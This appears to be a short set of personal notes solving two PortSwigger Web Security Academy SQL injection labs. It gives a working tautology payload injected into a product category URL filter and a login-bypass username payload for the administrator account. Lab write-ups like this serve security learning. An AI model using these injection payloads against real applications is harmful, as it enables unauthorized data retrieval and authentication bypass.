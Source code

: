 ```yaml
---
title: SQLi - APPRENTICE
tags: [Web, Portswigger Web Security Academy]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# SQLi - APPRENTICE
###### tags: `Portswigger Web Security Academy` `Web`
[TOC]

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
* Hint: This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

## Exp
Payload: `https://0a2700a903496ccd807a2626001400e3.web-security-academy.net/filter?category=%27%20or%20%271%27=%271%27%20--%20#`
:::spoiler Success Screenshot
![](https://i.imgur.com/pPKFYKj.png)
:::


---

## Lab: SQL injection vulnerability allowing login bypass
* Hint:  This lab contains a SQL injection vulnerability in the login function.
To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

## Exp
Payload:
Username: `administrator' or '1'='1' -- #`
Password: Arbitrary
:::spoiler Success Screenshot
![](https://i.imgur.com/dBm7zzB.png)
:::


## Reference
[Burp Suite Security Academy Writeup](https://github.com/frank-leitner/portswigger-websecurity-academy)